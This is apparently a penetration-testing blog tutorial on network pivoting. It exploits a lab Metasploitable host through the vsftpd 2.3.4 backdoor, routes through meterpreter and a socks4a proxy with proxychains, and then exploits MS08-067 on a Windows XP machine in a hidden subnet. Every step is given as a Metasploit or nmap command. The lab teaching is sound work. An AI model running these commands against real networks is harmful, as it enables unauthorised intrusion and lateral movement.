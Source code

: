 ```yaml
---
title:  "Pivoting - part 2. Proxychains. Metasploit. Practical example."
date:   2021-11-08 10:00:00 +0600
header:
  teaser: "/assets/images/20/2021-11-08_13-25.png"
categories: 
  - pentest
tags:
  - pivoting
  - red team
  - networking
  - pentest
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!           

![pivoting 1](/assets/images/20/2021-11-08_13-25.png){:class="img-responsive"}         

This article I will consider scenarios for attacking protected segments of the corporate network using pivoting techniques via `metasploit` framework and `proxychains`.      

### Scenario

Let's consider at this network topology:       

![pivoting 1](/assets/images/20/pivot-topology.png){:class="img-responsive"}         

> for simplicity, I chose Metasploitable as machine A and vulnerable windows xp sp3 as machine B        

### enum and compromise machine A

Often in a real pentest, you do not know the exact address of the vulnerable machines in network, so first I did hosts discovery:
```bash
nmap -sn -T4 10.10.2.0/24 -oG - | awk '/Up$/{print $2}'
```

![pivoting 1](/assets/images/20/2021-11-08_12-04.png){:class="img-responsive"}         

As you can see, our target is `10.10.2.15`.          

Then scan:
```bash
nmap -Pn -sV 10.10.2.15
```

![pivoting 1](/assets/images/20/2021-11-08_12-18.png){:class="img-responsive"}         


We found a vulnerable `21` port. But in this case we will pwn machine `A` via Metasploit Framework. The Metasploit Framework from Rapid7 is one of the best-known frameworks in the area of vulnerability analysis, and is used by many Red Teams and penetration testers worldwide.     

Firstly, run:
```bash
msfconsole
```

![pivoting 1](/assets/images/20/2021-11-08_12-20.png){:class="img-responsive"}         

In my case I am using `metasploit v5.0.87-dev` from my kali VM.    

Exploitation:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.2.15
set RPORT 21
run
```

![pivoting 1](/assets/images/20/2021-11-08_12-21.png){:class="img-responsive"}         

As you can see, we got a reverse shell session.        

enum network intefaces:
```bash
ifconfig
```

![pivoting 1](/assets/images/20/2021-11-08_12-22.png){:class="img-responsive"}         

And we discovered another network `10.9.1.22/24`.          

update our shell to meterpreter:
```bash
use post/multi/manage/shell_to_meterpreter
set LPORT 4441
set LHOST 10.10.2.6
set SESSION 1
run
```

![pivoting 1](/assets/images/20/2021-11-08_12-24.png){:class="img-responsive"}         


### access hidden network via proxy

Further, according to the scenario, the attacker wants to gain access to the subnet behind the `10.9.1.0/24` interface. To do this, he needs to use a compromised host as a pivot.   

Check our meterpreter session:        
```bash
sessions -l
```

![pivoting 1](/assets/images/20/2021-11-08_12-24_1.png){:class="img-responsive"}         


The following command can be used to create a tunnel through an existing meterpreter session:    
```bash
sessions -i 2
run autoroute -s 10.9.1.0/24
run autoroute -p
```

![pivoting 1](/assets/images/20/2021-11-08_12-26.png){:class="img-responsive"}         

We have added our additional route and this route will work during the meterpreter session is not closed.    

In order for our tools such as nmap to work on this network, we must configure a `socks4a` proxy:     
```bash
use auxiliary/server/socks4a
set SRVHOST 10.10.2.6
set SRVPORT 8090
```

![pivoting 1](/assets/images/20/2021-11-08_12-28.png){:class="img-responsive"}         


Check:        
```bash
netstat -antp
```

![pivoting 1](/assets/images/20/2021-11-08_12-29.png){:class="img-responsive"}         

As you can see the proxy has been created immediately and you can see our current meterpreter session `10.10.2.6:4441`.     

Now we configure `proxychains`. Using the `proxychains` utility, any TCP connection can be sent to the destination via TOR, SOCKS4, SOCKS5, HTTP/HTTPS proxy. Let's make a small update in the settings file `/etc/proxychains.conf`:    
```bash
nvim /etc/proxychains.conf
```

![pivoting 1](/assets/images/20/2021-11-08_12-31.png){:class="img-responsive"}         


Then, scan via `proxychains` and `nmap`:         
```bash
proxychains4 nmap -sT -p21,22,135,139,445 10.9.1.0/24 2>&1 | grep 'OK'
```

![pivoting 1](/assets/images/20/2021-11-08_13-10.png){:class="img-responsive"}         

### exploit and access machine B

scan machine `B`:
```bash
proxychains4 nmap -Pn -sT -sV 10.9.1.12
```

![pivoting 1](/assets/images/20/2021-11-08_13-12.png){:class="img-responsive"}         

so, machine OS is `Microsoft Windows XP`

check port `445` for vulnerability:
```bash
proxychains4 nmap -Pn -sT -sV --script=*smb-vuln* 10.9.1.12
```

![pivoting 1](/assets/images/20/2021-11-08_13-09.png){:class="img-responsive"}         

is vulnerable to `ms08-067`.

Run in `metasploit` again:          
```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/shell/bind_tcp
set RHOSTS 10.9.1.12
set RHOST 10.9.1.12
set LPORT 4447
run
```

![pivoting 1](/assets/images/20/2021-11-08_13-23.png){:class="img-responsive"}         

Here we used the bind shell, so it's not necessary to create the reverse route.        

![pivoting 1](/assets/images/20/2021-11-08_13-25.png){:class="img-responsive"}         

**So, the machine B has been pwned :)**

### conclusion

the attacker discovered secret network by following the steps below.

- attacker got an access to the `machine A (10.10.2.15)` which was on same network with attacker via exploitation `vsftpd 2.3.4` on port `21`          
- then he realise that `machine A` has 2 network interfaces         
- access hidden network via `autoroute` in meterpreter session to `machine A`       
- create `socks4a` proxy         
- then attacker scan ports on new discovered network `10.9.1.0/24`         
- scan ports on `10.9.1.12`           
- `machine B` have vulnerable `smb` on port `445`                  
- successfully exploit `ms08-067` on `machine B`                   
- final       

[first part](/pentest/2021/11/04/pivoting-1.html)         
[pivoting via metasploit](https://www.offensive-security.com/metasploit-unleashed/pivoting/)          
[metasploit](https://www.metasploit.com/)            
[proxychains](https://github.com/haad/proxychains)       

> This is a practical case for educational purposes only.      

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*             